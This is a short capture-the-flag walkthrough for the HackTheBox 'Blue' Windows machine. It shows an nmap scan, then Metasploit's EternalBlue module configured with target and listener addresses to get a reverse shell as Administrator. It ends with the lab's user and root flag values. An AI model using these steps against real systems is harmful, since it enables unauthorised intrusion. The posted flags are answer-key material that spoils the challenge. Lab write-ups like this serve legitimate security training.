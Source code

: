 # HackTheBox **Blue**  
**Difficulty:** Easy  
**Platform:** Windows 

## Reconnaissance:
I'll start with a simple nmap scan on the IP.

```bash
nmap -sC -sV -oN outputNMAP.txt $IP 
```

![NMAP Scan Output](img1.png)

The version of Windows used makes me think the target is vulnerable to EternalBlue. So let's open msfconsole and try it.

```bash
sudo msfconsole -q

search eternal
```

![Metasploit Search](img2.png)

Let's set the RHOSTS and LHOST. Then run it.

```bash
set RHOSTS $targetIP

set LHOST $myIP

run
```

![EternalBlue Exploit](img3.png)

It worked and we got a reverse shell. Let's see what user are we.

```bash
getuid
```

![User ID](img4.png)

We are Administrator, so no need to search for privilege escalation vectors.

Let's get the flags:

### User Flag: 95a96a75df4398d673fe46ab9f77924d (C:\Users\haris\Desktop)

### Root Flag: 379d5dc4fbc0b2da829b0dfe42666bcc (C:\Users\Administrator\Desktop)

